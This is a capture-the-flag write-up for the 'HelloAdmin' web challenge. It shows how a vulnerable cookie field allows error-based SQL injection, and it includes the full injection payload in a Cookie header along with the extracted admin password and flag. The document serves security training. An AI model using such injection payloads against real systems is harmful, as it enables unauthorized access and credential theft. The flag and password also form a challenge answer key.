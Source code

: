 # HelloAdmin

**Category:** Web
**Points:** 20

**Description:**

Log in as 'admin' and you will see the flag!

http://helloadmin.iutcert.io

## Solution

This challenge is based on sql-injection. Users are given a login page. Using ```test:test``` they can login and will be redirected to user.php page.
There is also another page named admin.php but they could access it only when the cookie ```Admin``` is equal to 1.

checking for sql-injection vulnerability, users can find out when they send a request to admin.php with below values in Cookie field of header, site is vulnerable to sqli and will respond with a sql error:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie="; Admin=1
```

The concept of this challenge is that MyCookie field is vulnerable, but when everything is ok only the message ```hello test``` will be shown in page.
It means that no value from database will be shown on this page and users can not see database fields and their values.

The solution is simple, 
#### find a way to see the results of query in error. 
here is the query for geting the password of admin:

```
Cookie: PHPSESSID=3407qk4ll60du17iusmoo6s6t4; MyCookie=" union select 1,2,3,count(*), concat((select password from users limit 0,1),floor(rand()*3))a from information_schema.tables group by a--+; Admin=1
```

And by logging as admin they can see the flag:

```
username: admin
password: YouC4nNOTLoginAsM3
```
#### flag: ```VOW_YOU_l0gg3d_in_AS_M3333```
